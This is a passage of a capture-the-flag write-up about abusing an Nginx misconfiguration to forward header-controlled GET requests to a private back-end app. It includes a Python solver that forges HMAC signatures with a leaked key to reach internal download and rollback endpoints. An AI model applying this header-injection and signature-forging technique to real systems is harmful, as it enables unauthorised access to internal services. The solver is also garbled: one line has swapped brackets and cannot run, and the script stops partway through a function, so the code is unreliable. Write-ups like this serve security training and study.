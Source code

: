 Next, it turned out that the vulnerability caused by this Nginx config could be used to access the back-end app directly.
Specifically, I could issue an arbitrary HTTP request (But it's only the GET method[^4]).

The URL to which the request is forwarded can be freely specified to some extent, as shown below.

- Scheme: Unconfirmed (this time it is enough to use `http`)
- Host (including port): In a legitimate request that occurs on a vulnerable endpoint, if you rewrite the value of the header `Host`, that value becomes the host part of the forward URL.
- Path + query string: In a legitimate request that occurs on a vulnerable endpoint, if you rewrite the value of the header `Lang`, it becomes the path of the URL to which you are forwarding.[^5]

After that, I organized the specifications of the back-end application and just did a puzzle.
For details, refer to Solver described later.

<details><summary>
    Notes on backend app specifications
</summary></details>

### Solver

```py
import hashlib
import hmac
import json
from urllib.parse import urljoin

import requests

PUBLIC_BASE_URL = 'http://35.190.234.195/'
PRIVATE_HOST = 'localhost:5000'

PRIVATE_KEY = b"let'sbitcorinparty"

def get_db_hash() -> str:
    res = requests.get(urljoin(PUBLIC_BASE_URL, '/'),
                       headers={
                           'Host': PRIVATE_HOST,
                           'Lang': 'integrityStatus'
                       })
    return json.loads[res.headers['lang']]('dbhash')

def generate_sign(s: str) -> str:
    return hmac.new(PRIVATE_KEY, s.encode(), hashlib.sha512).hexdigest()

def generate_key(s: str) -> str:
    return hashlib.sha512(s.encode('ascii')).hexdigest()

def add_prefix(s: str, prefix: str) -> str:
    return f'{prefix}{s}'

def execute_download(srcUrl: str) -> requests.Response:
    sign = generate_sign(f'src={srcUrl}')
    return requests.get(urljoin(PUBLIC_BASE_URL, '/'),
                        headers={
                            'Host': PRIVATE_HOST,
                            'Lang': f'download?src={srcUrl}',
                            'Sign': sign
                        })

def execute_rollback(dbHash: str) -> requests.Response:
    FRAGMENT = '_'

    key = generate_key(dbHash)
    sign = generate_sign(f'dbhash={add_prefix(dbHash, FRAGMENT)}')

```

[^1]: I solved this with my teammate [@y0d3n](https://twitter.com/y0d3n).
[^2]: I feel that there is a relatively good way to put out a simple Writeup for the time being and give a detailed explanation at the review's timing.
[^3]: FYI: <https://qiita.com/no1zy_sec/items/dfccd91cf76bf73b7754>
[^4]: I didn't investigate if we could issue other method requests because it was enough to get the flag if there was a GET request.
[^5]: After being forwarded, it may be normalized using `app.main.LanguageNomarize (request)`.
[^6]: `%` is a wildcard that represents a string of 0 or more characters
[^7]: Actually, the manual leak by teammate [@y0d3n](https://twitter.com/y0d3n) was faster, but from a privacy point of view, instead of his face photo, The Solver script by Python is posted.